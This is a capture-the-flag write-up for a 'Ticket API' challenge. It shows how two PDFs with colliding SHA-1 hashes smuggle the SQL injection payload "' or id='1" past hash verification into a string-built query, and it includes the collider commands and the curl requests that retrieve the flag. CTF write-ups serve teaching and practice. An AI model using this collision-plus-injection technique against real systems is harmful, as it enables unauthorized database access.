 # WEB/CRYPTO //   👯 Ticket API
 
Built new system to verify forged entry tickets. Hope you like it.

[⬇️ ticket-api_src.zip](./ticket-api_src.zip)

# Writeup

I started with code analysis and found that we had two endpoints which both took a PDF file `/verify` and `/upload`.

When uploaded the file would be parsed as a PDF and it would read any QR codes in the file. Then calculate a `sha1` hash of the QR code and store the QR code value (uuid) and the hash in a database. The value of the QR code had to be a UUID.

The `/verify` endpoint would take the hash and check if it existed in the database, then use the value for the QR code on that PDF to get the row in the database.

```
var ticket = await db.QueryFirstOrDefaultAsync($"SELECT * FROM Tickets WHERE code like '{code}'");
```

If we could manipulate the `code` to be a valid SQL injection instead of an UUID. @decoy then found [this github](https://github.com/nneonneo/sha1collider) with a PDF Sha1 collider. If we could generate two PDF's one with a valiud UUID and one with a SQL payload and make so they have the same sha1 hash we could possible run injections.

I wrote [generatePDF.py](./generatePDF.py) which allowed me to insert a payload and a filename. I generated [ticket-1.pdf](./ticket-1.pdf) with a valid UUID and [ticket-2.pdf](./ticket-2.pdf) which had a SQL payload `' or id='1`. 

Then I ran the `collide.py` script

```bash
$ python collide.py ticket-1.pdf ticket-2.pdf --progressive
$ sha1sum *.pdf 
e1b4f765dc258edbccc3ebb5fc97772feedbda8e  out-ticket-1.pdf
e1b4f765dc258edbccc3ebb5fc97772feedbda8e  out-ticket-2.pdf
2bee794541d908d4f405bdd7a0c011348953cb68  ticket-1.pdf
1308092433161feb3a9d6d9db9b06892533539b5  ticket-2.pdf
```

Bingo, we had two equal sha1 hashes. I uploaded the `ticket-1.pdf`

```bash
$ curl -X POST -F "file=@./out-ticket-1.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/upload
"Ticket added"
```

Followed by verifying the `ticket-2.pdf` which had the SQL payload.

```bash
$ curl -X POST -F "file=@./out-ticket-2.pdf" https://ticket-api-061f5e195e3d.1753ctf.com/verify
{"id":1,"code":"1753c{dizz_are_not_forged_if_they_have_the_same_hasshhh}","hash":"admin-needs-no-hash"}
```